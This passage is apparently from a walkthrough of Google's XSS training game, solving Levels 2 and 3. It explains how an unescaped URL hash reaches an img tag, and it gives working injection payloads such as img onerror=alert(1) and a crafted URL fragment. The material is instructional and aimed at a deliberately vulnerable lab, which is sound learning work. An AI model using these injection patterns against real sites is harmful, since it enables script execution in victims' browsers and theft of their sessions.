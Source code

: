 I first tried `<iframe src="javascript:alert(1);"></iframe>`. While it triggered XSS, it was not the answer the challenge was looking for. Instead, have a broken link to an image and run XSS on error: `<img src='#' onerror=alert(1) />`.

## [3/6]  Level 3: That sinking feeling...
As you've seen in the previous level, some common JS functions are execution sinks which means that they will cause the browser to execute any scripts that appear in their input. Sometimes this fact is hidden by higher-level APIs which use one of these functions under the hood.

The application on this level is using one such hidden sink.

As before, inject a script to pop up a JavaScript `alert()` in the app.

Since you can't enter your payload anywhere in the application, you will have to manually edit the address in the URL bar below.

<iframe width="100%" height="350" src="https://xss-game.appspot.com/level3/frame#1" title="Level3"></iframe>

If we read the source code, we can find an injection point.
```js
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```
Because the browser won't execute scripts added after the page has loaded, we cannot add `<script>` tags. But, we can add an `onerror` attribute to the `<img>` through the `num` variable. `num` is the parameter passed into the `chooseTab()` function. 

```js
window.onload = function() {
	chooseTab(unescape(self.location.hash.substr(1)) || "1");
}
```
On load, `unescape(self.location.hash.substr(1)) || "1"` is passed into `chooseTab()`. `unescape()` removes URL encoding. `self.location` is the URL and `self.location.hash` returns the [anchor part of the URL](https://www.w3schools.com/JSREF/prop_loc_hash.asp). `self.location.hash.substr(1)` returns everything after the `#` mark. So if there is nothing after the anchor, it defaults to the first image/tab.

Now, onto the injection. We need to add `onerror`, trigger an error with a broken link, and comment out what we don't need.

```js
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
// becomes
html += "<img src='/static/level3/cloud" + "' onerror='alert(1)'/>//" + ".jpg' />";
// which is equivalent to
html += "<img src='/static/level3/cloud" + "' onerror='alert(1)'/>//.jpg' />";
// which creates the following tag
<img src='/static/level3/cloud' onerror='alert(1)'/>
//src='/static/level3/cloud' will trigger an error because there is no image there
```
Injecting `'onerror='alert(1)'/>//` after the hash in the URL will solve the challenge. You can also put any string before the first `'` because that will also trigger an error. Just navigate to https://xss-game.appspot.com/level3/frame#'onerror='alert(1)'/>//.

You could also inject `'onerror='alert(1)//`:
```js
// Turn this
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
// into 
html += "<img src='/static/level3/cloud" + "'onerror='alert(1)//" + ".jpg' />";
// which creates the following tag
<img src='/static/level3/cloud' onerror='alert(1)//.jpg'/>
```
This also solves the challenge but is less clean.
